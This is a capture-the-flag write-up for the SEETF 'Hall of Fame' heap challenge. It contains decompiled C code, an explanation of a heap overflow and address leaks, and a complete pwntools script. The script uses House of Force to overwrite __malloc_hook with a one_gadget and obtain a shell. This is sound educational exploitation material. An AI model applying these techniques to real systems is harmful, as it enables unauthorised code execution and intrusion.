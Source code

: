 ## Hall of Fame
![hof](images/hof.png)

### Description
>Author: @L0uisJ0shua\
>It’s about drive, it’s about power, we stay hungry, we devour Put in the work, put in the hours and take what’s ours. Time to get to the Hall of Fame and be among the GOATS.\
>nc fun.chall.seetf.sg 50004\
>MD5: 3264e936e673b0de0ec61698b9bb930f



### Gain Shell
Heap exploitation challenge, with libc-2.27 version. No PIE and Partial Relro for the protection. Let's straight to decompile with IDA.\
The challenge is running on **main()** function. 
```c
...
  v21 = __readfsqword(0x28u);
  counter = 0;
  heap_pointer = sbrk(0LL);
  setup_IO();
  while ( 1 )
  {
    while ( 1 )
    {
      do
      {
        print_statements(counter);
        printf("Choose> ");
        fflush(stdout);
      }
      while ( !fgets(option, 3, stdin) );
      fflush(stdin);
      option[strcspn(option, "\n")] = 0;
      v3 = atoi(option);
      if ( v3 != 2 )
        break;
      printf("\nThe position of latest addition is at %p\n", heap_pointer);
      printf("The position of PUTS is at %p\n", &puts);
    }
    if ( v3 == 3 )
      break;
    if ( v3 == 1 )
    {
      printf("\nHow many points did this person score? > ");
      fflush(stdout);
      if ( fgets(score, 64, stdin) )
      {
        fflush(stdin);
        score[strcspn(score, "\n")] = 0;
        size = strtol(score, &pty, 10);
        ptr = malloc(size);
        chunk = ptr;
        printf("\nWho is this Hall of Famer > ");
        fflush(stdout);
        fgets(word, 100, stdin);
        fflush(stdin);
...
```

If you look at the code we already got leak address, and there's a overflow on heap also. When we add Hall of Fame, the program will ask the size and malloc it, and then ask for input again for the data with size **100**.\
So if we input size < 100 we will have an overflow. Because the libc version is 2.27 so to solve this challenge just use [**House of Force**](https://heap-exploitation.dhavalkapil.com/attacks/house_of_force) technique.

Full script:
```py
from pwn import *
from sys import *

elf = context.binary = ELF("./hall_of_fame_patched")
p = process("./hall_of_fame_patched")
libc = ELF("./libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50004

cmd = """
b*0x0000000000400AE7
"""

if(argv[1] == 'gdb'):
    gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
    p = remote(HOST,PORT)

def add(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'> ', str(size))
    p.sendlineafter(b'> ', data)

def show():
    p.sendlineafter(b'> ', b'2')
    p.recvuntil(b'at ')
    heap = eval(p.recvline())
    p.recvuntil(b'at ')
    leak = eval(p.recvline())
    return heap,leak


heap,leak = show()
libc.address = leak - libc.sym['puts']
print(hex(heap), hex(libc.address))
add(0x10,b'A'*24+p64(0xffffffffffffffff))
size = libc.sym['__malloc_hook']-(heap+0x270)-0x20

add(size,b'')
add(0x30,p64(libc.address+0x10a2fc))
p.interactive()
```